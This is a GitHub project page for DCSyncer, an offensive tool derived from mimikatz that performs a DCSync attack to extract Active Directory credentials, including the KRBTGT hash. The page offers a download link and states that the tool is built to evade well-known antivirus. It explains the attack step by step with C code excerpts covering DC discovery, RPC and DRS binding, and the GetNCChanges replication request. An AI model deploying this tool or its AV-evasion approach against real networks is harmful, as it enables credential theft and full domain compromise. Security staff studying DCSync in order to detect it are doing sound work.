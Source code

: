 ```yaml
---
layout: page
title: DCSyncer
description: Tool derived from mimikatz that performs DCSync operation
github: https://github.com/notsoshant/DCSyncer
download: https://github.com/notsoshant/DCSyncer/releases/download/v1.0/DCSyncer-x64.exe
ext-js: https://buttons.github.io/buttons.js
---
```


[Follow @notsoshant](https://github.com/notsoshant){:class="github-button" data-size="large" aria-label="Follow @notsoshant"}
[notsoshant/DCSyncer]({{ page.github }}){:class="github-button" data-icon="octicon-repo-forked" data-size="large" aria-label="View notsoshant/DCSyncer on GitHub"}
[Download]({{ page.download }}){:class="github-button" data-icon="octicon-download" data-size="large" aria-label="Download notsoshant/DCSyncer on GitHub"}

DCSyncer is a tool that performs DCSync operation. DCSync is a method to extract credentials, including that of KRBTGT, from a remote system by simulating behavior of a Domain Controller. This method is very powerful as you don't need any command execution _on_ the Domain Controller. You also don't need to be a Domain Admin to perform this operation, you need a user with _Replicating Directory Changes_ and _Replicating Directory Changes All_ permissions. For more details on DCSync attack and its prevention, read [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729).

Huge thanks to [Sumit Verma](https://www.linkedin.com/in/sumit-verma-125576129/) for coming up with the idea behind the tool!

<p align="center"><img src="/img/tools/dcsyncer/dcsyncer-1.png" /></p>

<p align="center"><img src="/img/tools/dcsyncer/dcsyncer-2.png" /></p>

## Mimikatz and need for DCSyncer

[Mimikatz](https://github.com/gentilkiwi/mimikatz) comes with capability to perform DCSync operation. [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) can also perform this operation. Antivirus detection for these tools are strong. But AVs don't often do it right, most of the times they rely on some string or pattern matching that can be easily bypassed by recompiling the tool with few modifications.

Idea behind this tool was to show that we can't entirely rely on AVs to keep us secure. This is an attempt to extract only the code piece relevant to DCSync from mimikatz's huge, feature-rich codebase. This tool, though extracted from mimikatz, tries to avoid any reference to it so that it can bypass some well known AVs.

## Working

A DCSync operation uses [Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) to simulate a Domain Controller. It uses the [`GetNCChanges`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) function to do so. DCSyncer uses code extracted mainly from [RPC](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc.c), [DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_drsr.c) and [MS-DRS](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_ms-drsr_c.c) modules of mimikatz. The main DCSync function is replica of mimikatz's, but I've written it manually to understand each and every step involved in the process.

Let's dissect the main DCSync function to see how it works.

#### Get the Domain Info and the DC

```c
getCurrentDomainInfo(&pDomainInfo);
szDomain = pDomainInfo->DnsDomainName.Buffer;
PRINT_INFO(L"Domain would be %s\n", szDomain);

getDC(szDomain, DS_DIRECTORY_SERVICE_REQUIRED, &szDc);
PRINT_INFO(L"DC would be %s\n", szDc);
```

`getCurrentDomainInfo()` is calling [`LsaQueryInformationPolicy()`](https://docs.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-lsaqueryinformationpolicy) in background to get the `PolicyDnsDomainInformation` which retrieves DNS information. `getDc()` would use Domain extracted from DNS information and call [`DsGetDcName()`](https://docs.microsoft.com/en-us/windows/win32/api/dsgetdc/nf-dsgetdc-dsgetdcnamea) in to get the DC.

#### Create RPC Binding

```c
szService = L"ldap";
RtlGetNtVersionNumbers(&pMajor, &pMinor, &pBuild);

createBinding(NULL, L"ncacn_ip_tcp", szDc, NULL, szService, TRUE, (pMajor < 6) ? RPC_C_AUTHN_GSS_KERBEROS : RPC_C_AUTHN_GSS_NEGOTIATE, NULL, RPC_C_IMP_LEVEL_DEFAULT, &hBinding, RpcSecurityCallback);

getDomainAndUserInfos(&hBinding, szDc, szDomain, &getChReq.V8.uuidDsaObjDest, szUser, szGuid, &dsName.Guid, &DrsExtensionsInt);
```

`createBinding()` is taken from RPC module of mimikatz which will create a RPC bind to the DC. `getDomainAndUserInfos()` will first create a DRS handle using [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) and then use [`IDL_DRSDomainControllerInfo()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/668abdc8-1db7-4104-9dea-feab05ff1736) and [`IDL_DRSCrackNames()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/9b4bfb44-6656-4404-bcc8-dc88111658b3) to retrieve information about DC.

#### Preparing for GetNCChanges

```c
getDCBind(&hBinding, &getChReq.V8.uuidDsaObjDest, &hDrs, &DrsExtensionsInt);

getChReq.V8.pNC = &dsName;
getChReq.V8.ulFlags = DRS_INIT_SYNC | DRS_WRIT_REP | DRS_NEVER_SYNCED | DRS_FULL_SYNC_NOW | DRS_SYNC_URGENT;
getChReq.V8.cMaxObjects = (allData ? 1000 : 1);
getChReq.V8.cMaxBytes = 0x00a00000; // 10M
getChReq.V8.ulExtendedOp = (allData ? 0 : EXOP_REPL_OBJ);
getChReq.V8.pPartialAttrSet = (PARTIAL_ATTR_VECTOR_V1_EXT*)MIDL_user_allocate(sizeof(PARTIAL_ATTR_VECTOR_V1_EXT) + sizeof(ATTRTYP) * ((allData ? ARRAYSIZE(dcsync_oids_export) : ARRAYSIZE(dcsync_oids)) - 1));
getChReq.V8.pPartialAttrSet->dwVersion = 1;
getChReq.V8.pPartialAttrSet->dwReserved1 = 0;

if (allData)
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids_export);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids_export[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
else
{
    getChReq.V8.pPartialAttrSet->cAttrs = ARRAYSIZE(dcsync_oids);
    for (i = 0; i < getChReq.V8.pPartialAttrSet->cAttrs; i++)
        MakeAttid(&getChReq.V8.PrefixTableDest, dcsync_oids[i], &getChReq.V8.pPartialAttrSet->rgPartialAttr[i], TRUE);
}
```

`getDCBind()` will call [`IDL_DRSBind()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/605b1ea1-9cdc-428f-ab7a-70120e020a3d) again, this time with UUID obtained from `getDomainAndUserInfos()` to create a handle that will be used by `GetNCChanges()`. Lines that follow are just setting up other parameters for the request message.

#### Calling GetNCChanges and decrypting response

```c
do
{
    RtlZeroMemory(&getChRep, sizeof(DRS_MSG_GETCHGREPLY));
    drsStatus = IDL_DRSGetNCChanges(hDrs, 8, &getChReq, &dwOutVersion, &getChRep);
    if (drsStatus == 0)
    {
        if (dwOutVersion == 6 && (allData || getChRep.V6.cNumObjects == 1))
        {
            if (ProcessGetNCChangesReply(&getChRep.V6.PrefixTableSrc, getChRep.V6.pObjects))
            {
                ...
            }
            else
            ...
        }
        ...
    }
}
while (getChRep.V6.fMoreData);
```

Finally, a call to [`IDL_DRSGetNCChanges()`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894). Lines that follow are decrypting the response of this call and printing the output.
